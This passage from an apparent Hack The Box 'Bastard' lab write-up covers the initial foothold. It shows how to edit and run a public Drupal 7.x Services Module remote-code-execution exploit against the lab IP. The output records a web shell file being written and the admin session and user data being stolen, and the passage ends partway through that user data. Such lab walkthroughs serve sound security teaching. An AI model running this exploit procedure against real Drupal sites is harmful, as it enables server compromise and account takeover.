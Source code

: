 ## Initial Foothold <a id="03d0"></a>

Make the following changes to the exploit code.

```text
$url = '10.10.10.9';
$endpoint_path = '/rest';
$endpoint = 'rest_endpoint';
```

There are also two comments that are not wrapped properly that you’ll need to fix.

Run the exploit.

```text
php 41564.php 
```

We get an “ Uncaught Error: Call to undefined function curl\_init\(\)” error message. That’s because we don’t have _php-curl_ installed on our kali machine.

```text
apt-get install php-curl
```

Now the exploit should work.

```text
root@kali:~/Desktop/htb/bastard# php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics 
# Website: https://www.ambionics.io/blog/drupal-services-module-rce#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: 10.10.10.9/dixuSOspsOUU.php
```

Perfect! It created two files: _session.json_ and _user.json_. View the content of _user.json_.

```text
root@kali:~/Desktop/htb/bastard# cat user.json 
{
    "uid": "1",
    "name": "admin",
    "mail": "drupal@hackthebox.gr",
    "theme": "",
    "created": "1489920428",
    "access": "1581904913",
    "login": 1581908048,
    "status": "1",
    "timezone": "Europe\/Athens",
    "language": "",
    "picture": null,
    "init": "drupal@hackthebox.gr",
    "data": false,
    "roles": {
        "2": "authenticated user",
        "3": "administrator"
    },
    "rdf_mapping": {
        "rdftype": [
            "sioc:UserAccount"
        ],
        "name": {
            "predicates": [
                "foaf:name"
```